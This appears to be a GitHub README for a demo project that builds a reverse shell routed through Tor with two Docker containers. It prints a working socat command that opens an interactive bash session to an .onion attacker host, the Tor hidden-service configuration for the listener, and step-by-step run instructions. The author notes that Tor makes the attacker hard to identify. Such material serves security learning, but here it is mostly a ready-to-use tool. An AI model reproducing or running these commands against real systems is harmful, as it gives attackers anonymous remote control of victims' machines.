 <div align="center">
<img src="https://img.shields.io/badge/docker-%230db7ed.svg?style=for-the-badge&logo=docker&logoColor=white" alt="docker" />

<img src="https://img.shields.io/badge/tor-%237E4798.svg?style=for-the-badge&logo=tor-project&logoColor=white" alt="tor-web-server"/>

<img src="https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white" alt="ubuntu-linux"/>

<img src="" alt=""/>

</div>
<br/>
<br/>

## **💁 What is Shell ?**

We can define a shell as a link between the system and the user. We can say that the shell has the purpose of interpreting commands, transmitting the results to the system and returning the results. Various types of shell interpreters on Unix/Linux systems, the most common being sh , bash , csh , Tcsh , ksh , and zsh.

## **🤔 What is reverse shell ?**

It is a technique used to send commands from a shell remotely through a port and thus allows the attacker to open a listening port on your server to receive connections from other machines, thus allowing control over them.

<p align="center">
<img src="./assets/rshell-example.png" alt="reverse-shell" />
</p>

With access to a compromised machine, the attacker will be able to escalate privileges to gain administrative access to the system.

## **💻 Project**

We created **_two containers_** in isolation that communicate with the **_Tor network_** forming a **_reverse shell_**. In this way, an attacker listens for connections from the Tor network while the victim's computer connects to the attacker.

<p align="center">
<img src="./assets/architecture.png" alt="architecture" width="700px"/>
</p>

To create the docker images we used [Ubuntu](https://ubuntu.com/) and installed [socat](https://linux.die.net/man/1/socat) and [tor](https://community.torproject.org/relay/setup/bridge/debian-ubuntu/) via apt-get as you can see in the dockerfiles.

## **🚀 Get Started**

First open a terminal instance and run the **_start_listen.sh_** script:

<p align="center">
<img src="./assets/listen-example.gif" alt="example-1"/>
</p>

Wait for Tor startup to reach 100%. Copy the script in yellow like the one generated in the image above.

Now open another instance of the terminal and run the **_start_rshell.sh_** script. After initialization, paste the script that was copied in the terminal and hit the enter key:

<p align="center">
<img src="./assets/rshell-example.gif" alt="example-2"/>
</p>

You can see that the attacker gets access to the victim computer.

## **🌐 Client explanation**

In order for the client to be able to make calls to the attacker, the rshell container needs to be on the tor network and execute the following command:

```bash
# example attacker host
ATTACKER_HOST=lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
ATTACKER_PORT=80

torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$ATTACKER_HOST:$ATTACKER_PORT
```

The **_torsocks_** command guarantees the the victim's ability to making calls to hosts on the Tor network.

## **🌐 Server explanation**

To create the server on the Tor network we must include the file **_torrc_** in the directory **_/etc/tor/_** this way we will get a host on the Tor network.

```bash
# torrc example
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:80
```

After starting the **_listen_** container you can see the host created by running the command:

```bash
docker exec -it listen cat /var/lib/tor/hidden_service/hostname

# out example
lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
```

Every call the victim makes to host `lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion` will be redirected to the **_socat_** server which is listening locally on port 80.

## **💥 Considerations**

There are many ways to create a reverse shell as you can see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). We use socat because it's easy to create a reverse shell with interactive PTY and autocomplete. I'm not a racker and I'm far from it 😂. But some lamers out there make gigantic python scripts with interactive interfaces and lots of base 64 to do it. For a good lamer like me 😎, a sh terminal with busybox is enough. Using the Tor network to create a reverse shell makes it very difficult to identify the attacker. I could have used the **_alpine_** image instead of **_ubuntu_** to create the containers but there was a problem in socat and I was too lazy to do that 😅.

## **📚 References**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories)
- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Author**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 My contacts!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## **📝 License**

This project has an MIT [license](LICENSE.md).
